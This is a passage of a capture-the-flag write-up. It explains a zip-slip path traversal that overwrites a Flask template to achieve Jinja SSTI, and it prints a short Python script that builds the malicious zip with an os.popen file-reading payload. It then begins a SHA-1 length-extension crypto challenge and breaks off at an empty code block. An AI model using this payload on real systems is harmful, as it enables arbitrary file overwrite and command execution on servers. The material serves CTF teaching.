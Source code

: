 ```py
            with open(os.path.join(upload_dir, f.filename), 'wb') as tf:
                tf.write(zf.open(f.filename, 'r').read())
    #...
    return render_template('upload.html', name=current_user.username)
```

The name of our zip file is not important as special OS characters are filtered out by the `secure_filename` function, and finding a 0-day in a Werkzeug library is probably a bit too hard for a challenge in this CTF.  

However, despite the name of our zip being filtered, the names of the files (`f.filename`) contained within the zip are not filtered, so we can overwrite or create a file in an arbitrary location of our choosing, with arbitrary content. Well, one good use for this is creating new templates in the `/app/app/templates/` folder. If we overwrote the `/app/app/templates/upload.html` file with an HTML file containing malicious Python code (in template format), the `render_template` call from the code above would let us achieve SSTI. I did the scripting in Python IDLE at the time, so here's the retroactively written script to generate the malicious zip.

```py
import zipfile

with zipfile.ZipFile("exploit.zip", "w") as zf:
    zf.writestr("../../../../../../../app/app/templates/upload.html", "{{cycler.__init__.__globals__.os.popen('cat /app/app/templates/admin.html').read}}")
    zf.close()
```

Uploading this now will overwrite the `upload.html` file with a file containing our malicious Jinja templating code, then render `upload.html`, evaluating our code and printing out the contents of `admin.html`, as required.

---

# Crypto

## Merkle-Derkle

> I'm new to web development, so I'm still trying to figure out how to properly secure and authenticate user sessions. If you find a way to authenticate as admin, I will give you the flag. To help you in your endeavors, I will provide you with the main app source code.
>
> Challenge Author: NihilistPenguin (Daniel Getter)

The solution to this challenge followed a textbook hash extension attack. To get the flag, your auth cookie must have passed the following check:

```py
# upload.py
def validate(cookie):
    user_hex = cookie.split(".")[0]
    user = bytes.fromhex(user_hex)
    data = secret.encode() + user
    
    cookie_mac = cookie.split(".")[1]
    if cookie_mac != sha1(data).hexdigest():
        raise Exception("MAC does not match!")
    
    return ast.literal_eval(user.split(b"=")[-1].decode())
```

...and we are set a cookie `auth` by the server automatically, which is signed with a variable length secret between 15-35 bytes long using SHA-1 and concatenated with the hex-encoded data `admin=False` with a `.` delimiter, as shown here:

```py
# upload.py
```